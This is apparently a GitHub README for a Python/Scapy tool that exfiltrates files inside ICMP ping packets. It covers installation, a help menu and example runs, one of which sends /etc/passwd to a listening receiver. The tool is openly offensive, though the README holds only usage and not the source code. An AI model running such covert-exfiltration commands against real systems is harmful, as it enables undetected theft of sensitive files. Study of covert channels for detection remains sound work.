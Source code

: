 # ICMP-Data-Exfiltration

This program is used to send data over the network within "ICMP Packets", with the help of the "PING" command.
we can send any type of file over the network between two hosts with the help of this script.


## Requirements
Need to have the [Scapy] library installed to sniff packets on the network.

### Installations
```bash 

pip3 install scapy

```
or
```bash 

sudo apt install python3-scapy

```

## Examples of How To Use
The program works with two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any "ICMP packets" that are coming towards our host machine, once we start receiving packets
this script will automatically decode the message and print it to the display and also in the same time the script
will save the output to indicate file.

Second file "icmp_sendData.py", with the help of this script we can send any type of file we want to another host 
where it is listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" 
to the script, and it will automatically convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

┃  [!] Usage icmp_exfiltration.py -i <Adaptor name / IP Address> -m <Mode> -f <Filename>   
――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――――

┃  [-i] Network Adaptor name

┃  [-m] Mode to use

         send
         recv

┃  [-f] File name to save data or to send.

┃  [-h] Help Panel
                      
```

### Usage
#### Receiving data
```bash
sudo python3 icmp_exfiltration.py -i wlan0 -m recv -f mydata
                                                                                                                                                                                      
┃  [*]  Listening for any incoming connections...                                                                                                                                         
                                                                                                                                                                                          
┃  [*]  Saving data to file 

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```

#### Sending data
```bash
❯ sudo python3 icmp_exfiltration.py -i 127.0.0.1 -m send -f /etc/passwd

┃  [*]  Hosts active,  Linux system

┃  [*]  Trying to send file..

100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 560000/560000 [00:00<00:00, 4217833.49it/s]

┃  [*]  File sent successfully
```

## Test

https://user-images.githubusercontent.com/74554439/158271576-cd6a262e-fb1e-41b7-afbd-19e7f231143a.mp4
